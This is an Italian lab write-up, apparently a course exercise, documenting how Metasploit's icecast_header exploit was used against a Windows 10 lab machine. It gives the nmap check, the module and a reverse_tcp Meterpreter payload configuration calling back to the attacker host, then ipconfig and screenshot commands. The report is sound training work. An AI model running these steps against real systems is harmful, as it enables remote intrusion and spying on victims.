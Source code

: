 # 📝 Consegna S7/L4
# Utilizzo di Metasploit per sfruttare Icecast su Windows 10

## 📝 **Introduzione**
Questa relazione documenta l'uso di Metasploit per ottenere una sessione **Meterpreter** su un sistema Windows 10 vulnerabile con Icecast in esecuzione. L'obiettivo era sfruttare una vulnerabilità nota di Icecast per:

- 📍 Identificare l'indirizzo IP della vittima.
- 🖼️ Acquisire uno screenshot del desktop della vittima.

## 🛠️ **Setup dell'ambiente**

- **Macchina attaccante:** Kali Linux  
  - **IP:** `192.168.50.165`
- **Macchina vittima:** Windows 10 con Icecast in esecuzione  
  - **IP:** `192.168.50.6`
- **Strumenti utilizzati:** Metasploit Framework

## 🔍 **Analisi e Preparazione**
Prima di iniziare l'attacco, ho verificato che il servizio Icecast fosse attivo sulla macchina Windows:

1. Ho avviato Icecast sulla macchina Windows, confermando che fosse in ascolto sulla porta predefinita `8000`.
2. Con un rapido **Nmap**, ho controllato che la porta fosse effettivamente aperta:
   ```bash
   nmap -p 8000 192.168.50.6
   ```
   - Risultato: la porta era aperta e il servizio Icecast attivo.

## ⚙️ **Esecuzione dell'attacco**

1. **Avvio di Metasploit**
   Ho avviato il framework Metasploit sulla macchina Kali con il comando:
   ```bash
   msfconsole
   ```

2. **Caricamento dell'exploit**
   Ho scelto l'exploit `icecast_header` specifico per Icecast:
   ```bash
   use exploit/windows/http/icecast_header
   ```

3. **Configurazione dei parametri**
   Ho configurato le seguenti opzioni per l'attacco:
   ```bash
   set RHOSTS 192.168.50.6
   set RPORT 8000
   set payload windows/meterpreter/reverse_tcp
   set LHOST 192.168.50.165
   set LPORT 4444
   ```

4. **Lancio dell'exploit**
   Dopo aver verificato le configurazioni con `show options`, ho eseguito l'exploit:
   ```bash
   exploit
   ```
   - **Risultato:** Sessione Meterpreter aperta con successo!

## 🎯 **Obiettivi raggiunti**

1. **Identificazione dell'indirizzo IP**
   Ho utilizzato il comando `ipconfig` nella sessione Meterpreter per visualizzare l'indirizzo IP della vittima:
   ```bash
   ipconfig
   ```
   - **Output:** Mostrava l'indirizzo IP della vittima `192.168.50.6`.

2. **Acquisizione dello screenshot**
   Per ottenere un'immagine del desktop della vittima, ho eseguito:
   ```bash
   screenshot
   ```
   - **Risultato:** Lo screenshot è stato salvato con successo sulla macchina attaccante.

   ![Screenshot Desktop](./MeterpreterWin10.png)

## 🚀 **Conclusioni**

La combinazione di analisi, configurazione accurata e utilizzo degli strumenti giusti ha reso possibile il successo dell'attacco. 
Questo esercizio dimostra quanto sia cruciale mantenere aggiornati i sistemi per prevenire vulnerabilità note. Come aspirante Ethical Hacker, continuo a rafforzare le mie competenze per identificare e mitigare tali rischi.
Questo esercizio mi ha permesso di comprendere meglio:

- 🕵️‍♂️ L'importanza della ricognizione e della preparazione prima di eseguire un exploit.
- 🔒 Le implicazioni di sicurezza di servizi non aggiornati come Icecast.
- 🛡️ La necessità di un approccio etico nell'uso di strumenti potenti come Metasploit.
